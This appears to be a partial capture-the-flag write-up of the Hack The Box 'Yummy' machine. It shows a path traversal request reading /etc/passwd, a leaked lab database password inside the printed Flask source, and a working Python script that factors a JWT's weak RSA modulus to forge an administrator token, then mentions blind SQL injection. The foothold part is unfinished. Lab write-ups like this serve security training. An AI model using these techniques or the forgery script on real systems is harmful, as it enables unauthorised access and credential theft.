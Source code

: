 ### Part 1: Enumeration

I am starting with nmap scan

![NMAP](/static/writeups/HTB-S-VI/yummy/1.png)

port 22 and 80 are open, i started with website and found a site called yummy.htb, after adding it to `/etc/hosts` i fired up dirsearch and got nothing so, i started tinkering with its functionality and found local file traversal vulnerability in save icalendar functionality which is accessible after booking a table:

![NMAP](/static/writeups/HTB-S-VI/yummy/2.png)

After intercepting request with burpsuite, i send it with

```
GET /export/../../../../../etc/passwd
```

and got content of `/etc/passwd`:

![NMAP](/static/writeups/HTB-S-VI/yummy/3.png)

As i can download any file within my access control, i begin to search for different file that may give some more information or way to get a shell and finally found something interesting in `/etc/crontab`

![NMAP](/static/writeups/HTB-S-VI/yummy/4.png)

![NMAP](/static/writeups/HTB-S-VI/yummy/5.png)

Let's read the scripts in `data/scripts`

`table_cleanup.sh` is cleaning the tables in mysql and there is a `credential` for database.

![NMAP](/static/writeups/HTB-S-VI/yummy/16.png)

let's see dbmonitor.sh,

![NMAP](/static/writeups/HTB-S-VI/yummy/18.png)

It checks if `mysql service` is down and fixes using a fixing script in `/data/scripts/`

Checking `backupapp.zip`

![NMAP](/static/writeups/HTB-S-VI/yummy/7.png)

`app_backup.sh` is removing the backupapp.zip in `web` folder and moves the current `web` folder to `/opt/app` as zip.Let's download the `backupapp.zip` from `/var/www/` and extract it

![NMAP](/static/writeups/HTB-S-VI/yummy/8.png)

These are the file in backupapp.zip

![NMAP](/static/writeups/HTB-S-VI/yummy/9.png)

Unzipping the `backupapp.zip` gives the source code for web application. `App.py` has same database credentials as cleanup.sh

```
from flask import Flask, request, send_file, render_template, redirect, url_for, flash, jsonify, make_response
import tempfile
import os
import shutil
from datetime import datetime, timedelta, timezone
from urllib.parse import quote
from ics import Calendar, Event
from middleware.verification import verify_token
from config import signature
import pymysql.cursors
from pymysql.constants import CLIENT
import jwt
import secrets
import hashlib

app = Flask(__name__, static_url_path='/static')
temp_dir = ''
app.secret_key = secrets.token_hex(32)

db_config = {
    'host': '127.0.0.1',
    'user': 'chef',
    'password': '3wDo7gSRZIwIHRxZ!',
    'database': 'yummy_db',
    'cursorclass': pymysql.cursors.DictCursor,
    'client_flag': CLIENT.MULTI_STATEMENTS

}

access_token = ''

@app.route('/login', methods=['GET','POST'])
def login():
```

searching inside the `/config` folder, there is `signature.py` file which is used to create the session tokens in web app.

![NMAP](/static/writeups/HTB-S-VI/yummy/11.png)

The major problem in this session tokens is when the jwt token is decoded from base64, it reveals the n value of RSA encryption:

![NMAP](/static/writeups/HTB-S-VI/yummy/12.png)

just by changing role to admin doesnot work because we are changing the signature, when a JWT is created, the signature is generated by hashing the payload and header with secret key. This signature acts as a seal for the token, ensuring it hasn’t been tampered with.

But, as we know n value with a few modification on signature.py we can create admin token

I used this python code:

```
from Crypto.PublicKey import RSA
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
import sympy
import jwt  # This should now work as we've imported pyjwt correctly
import base64

# Your session token
original_jwt = "eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.
eyJlbWFpbCI6InN1Y2VAeXVtbXkuaHRiIiwicm9sZSI6ImN1c3RvbWVyXzk3MTMwNGU0IiwiaWF0IjoxNzI4NDA1NzQ3LCJleHAiOjE3Mjg0MDkzNDcsImp3ayI6eyJrdHkiOiJSU0EiLCJuIjoiMTYwOTAxMDQy
MjM0OTI0MDM3MjI1NTU2MDMzNzk5ODMyNTAzNzMzOTcxMzYxMzk5NzY1NDkzOTA5ODkyMTkwOTYzMzE1MTk2MjAwNTIzNTAyMzgwOTk1MzQ1OTg1OTQwMTAxMTY1ODg1NTc0MTg5NDAyMjY1ODI4ODk2MDI1OTI2
MjU3Njk0NzM1MjU4MzMxOTI2ODIwMzU5OTQ5MjYyMzU1NTE5MDM2NTQ1NDQ0MjI5MzM0Mzg0Nzk5ODEwOTA1MDM3NTk0OTAyNDYxMTI4OTcxODI5NzIwNzQ1MDM1NjQyODI1MTkwOTAwMzE1OTEwNzcxMjM2NzU1
NjcxMTgxMjk2MjE5MzkyODQ3ODc4OTIzMDY4ODgxNjIyOTE1NjM2NzQ4MDcyNjUzOTUwMzcyMjA4Nzc2NzU5MTIzIiwiZSI6NjU1Mzd9fQ.
C48zA1-mU_GYLLpYhIkE9aT_QKtZ3qe7Jj3pk0yMrEtbDw3Shg6IbOORaFr8ID0N9sDcc-KMd5ZQ0fbEuhMnXDtCT4HwMojeeHOQI68UeQFZ80Po3aUCcANcs7OHswndGTc2mtt3O5F95koPSVZWj5K3bztTVCgc
o2H-OxmC78Uaz1A"
s = original_jwt.split(".")[1].encode()
s = base64.b64decode(s + b'=' * (-len(s) % 4)).decode()
n = int(s.split('"n":')[1].split('"')[1])

# Known public exponent
e = 65537

# Factor n to find p and q
factors = sympy.factorint(n)
p, q = list(factors.keys())

# Compute φ(n)
phi_n = (p - 1) * (q - 1)

# Compute d
d = pow(e, -1, phi_n)

# Construct the private key for signing
key = RSA.construct((n, e, d, p, q))
signing_key = key.export_key()

# Decode the JWT
decoded_payload = jwt.decode(
    original_jwt,
    signing_key,
    algorithms=["RS256"],
    options={"verify_signature": False}  # Skips verification of the token signature
)

# Modify the role to 'administrator'
decoded_payload['role'] = 'administrator'

# Re-encode the JWT with the updated payload
new_jwt = jwt.encode(decoded_payload, signing_key, algorithm='RS256')

print("Modified JWT with administrator role:")
print(new_jwt)
```

after copying new token generated from above script and using it in x-auth token in /admindashboard, i got admin panel

![NMAP](/static/writeups/HTB-S-VI/yummy/13.png)

there are no any fancy functionality in this panel apart from canceling appointment and a search functionality. so i am testing search for different vulnerabilities.

Using ghauri i find that search is vulnerable to error-based blind sql injection

![NMAP](/static/writeups/HTB-S-VI/yummy/14.png)

Remember there was another mysql cronjob running

### Part 2: Foothold

being updated
